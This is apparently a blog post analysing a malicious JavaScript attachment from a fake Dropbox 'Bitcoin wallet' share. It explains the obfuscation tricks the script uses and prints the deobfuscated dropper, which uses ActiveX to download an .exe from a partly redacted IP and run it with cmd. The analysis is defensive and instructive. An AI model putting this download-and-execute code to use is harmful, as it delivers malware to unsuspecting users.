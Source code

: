 ```yaml
---
layout: post
title:  "Reverse-engineering an obfuscated JavaScript file and lessons learnedYesterday, I got an email from Dropbox saying that somebody had shared their Bitcoin wallet with me. 
date:   2016-05-26 17:43:17 +0200
categories: sec
---
```


![](dropbox-btc-backup-js-deobfs.png)

This looks like an accident, right? And too good to be true? Probably is.

Email appeared to really come from Dropbox. The sending IP was allowed by the SPF policies (of course, that's no guarantee, but that's not what I wanted to spend time on).

I got curious and downloaded the file. It had the `.zip` file extension but turned out to actually be a RAR-archive (weird). I unrar-ed it and got two files, one `.js` and one `.exe`. I decided to take a look on the JavaScript file, never having de-obfuscated JavaScript before. 

## Some JavaScript sourcery used. 

The obfuscated code relies on JavaScript idiosyncrasies, most of which were unfamiliar to me, since I'm not a JS developer.

In JavaScript, you can call methods on objects with `instance["method"]()`, allowing you to pass the method name as data. After discovering the encryption-function, this was a common pattern.

{% highlight javascript %}
→ "string".substr(0, 1)
← "s"
→ "string"["substring"](0, 1)
← "s"

← "string".length
← 6
→ "string"["length"]
← 6
{% endhighlight %}

In fairness to JavaScript, most other interpreted languages have this as well (for Python, see `__getattr__`). 

There were a lot of functions with random names (e.g. `bCCg()`) that accepted no arguments but returned one character only. Sometimes they had wrapped the character inside an array and returned a specific element of the array. Example:

{% highlight javascript %}
function bCCg() {
   var ZRZQ = [(9), "f", 4][1];
   return ZRZQ;
}

// Rewritten to
function bCCg() { return "f"; }
{% endhighlight %}

which translates to simply returning returning `"f"`.

Another JS-"feature" that was used to hide data was concatenating (using the `+` operator) a tuple and a string. In JS, of course the last element of the string is concatenated to the string the tuple of concatenated to. Oh, and if it happens to be an integer, it's implicitly parsed to it's string representation. This all makes total sense, right? 

In case it doesn't, here's an example.

{% highlight javascript %}
→ "H" + (7, 6, 5, 3, 1, "i)
← "Hi"
→ "You are number" + ("One", 1)
← "You are number 1"
{% endhighlight %}

And an example usage is the function that started out as 

{% highlight javascript %}
function YWzqkGP() {
    var fTnKjVj = [UHRF() + "h" + prLEsog() + hiz()];
    var YfMUj = [ekYr() + CfK() + "d" + xoHWF() + "A" + "t"];
    var ZQGc = fTnKjVj[0] + YfMUj[0];
    return ZQGc;
}
{% endhighlight %}

After cleaning it up, it looks like this. 

{% highlight javascript %}
function YWzqkGP() {
    var a = "char";
    var b = "C" + (9299, 6662, 8019, 8743, 5179, 5958, 4605, 3648, 7468, 7969, "o") + "d" + "e" + "A" + "t";
    return a + b;
}
{% endhighlight %}

It should be obvious that `YWzqkGP()` is just a very complicated way of writing `"charCodeAt"`.

A lot time is spent maximizing the code length. This example is *AFTER* cleaning up the tricks described above. 

{% highlight javascript %}
function EilkPvf(a) {
    return ["f", "r", "o", "m", "C", "h", "a", "r", "C", "o", "d", "e"][a];
}

function rFeBmU() {
    return EilkPvf(0) + EilkPvf(1) + EilkPvf(2) + EilkPvf(3) + EilkPvf(4) + EilkPvf(5) + EilkPvf(6) + EilkPvf(7) + EilkPvf(8) + EilkPvf(9) + EilkPvf(10) + EilkPvf(11);
}
{% endhighlight %}

We see that all calls to `rFeBmU()` can be replace with `"fromCharCode"`. Smells like code, probably to be injected with the `instanceName["methodName"]` method.

## What is it trying to do? 

This obfuscated javascript features a fairly complicated encryption function, which I have not yet reverse engineered.

Instead, I isolated it and fed the encrypted strings to it to decrypt them. Seemed easier. This line was interesting to me

{% highlight javascript %}
→ pulPiZ("0160500490551240911021201030991051250880790 [CUTOFF] 018029");
← "http://[REDACTED].103/dma_lockoader_Crypt.exe"
{% endhighlight %}

The code is trying to load [WScript](https://msdn.microsoft.com/en-us/library/at5ydy31%28v=vs.84%29.aspx)) via ActiveX, which according to the documentation can "output information to the default output device (either a Windows dialog box or the command console)". 

After de-obfuscating the last big function, this is what I ended up with.

{% highlight javascript %}
function GMU(rtwjdld, kdkndmd) {}
function JqyQ() {
	var wscripteval = eval("WScript");
	var scriptfullname = wscripteval["ScriptFullName"];
	var activex_object = new ActiveXObject("MSXML2.XMLHTTP");
	activex_object["send"]();

    if (typeof WScript["echo"] == "unknown") {
		activex_object.open("GET", "http://[REDACTED].103/dma_lockoader_Crypt.exe", 0);
	}

    var fsobj = new ActiveXObject("Scripting.FileSystemObject");
	if (activex_object["Status"] == 200) {
		var adodb_stream = new ActiveXObject("ADODB.Stream");
		var path_probably = fsobj["GetSpecialFolder"](2) + '\\' + fsobj["GetTempName"]();
		adodb_stream["Open"]();
		adodb_stream["Type"] = 1;
		var wscript_shell = new ActiveXObject("WScript.Shell");
		var response_body = activex_object["ResponseBody"];
		adodb_stream["Write"](response_body);

        adodb_stream["Position"] = 0;
        adodb_stream["SaveToFile"](path_probably);             
                     

		adodb_stream["Close"]();
        wscript_shell["run"]("cmd /c " + path, 0);
	}
	GMU(fsobj, scriptfullname);
}

{% endhighlight %}

They are trying to download a `.exe` file, save it and execute it. How classic. I have on idea what the purpose of the `GMU` function is though.

## Aftermath

I contacted Dropbox and the hosting provider in the WHOIS record for the IP address in the URL. 

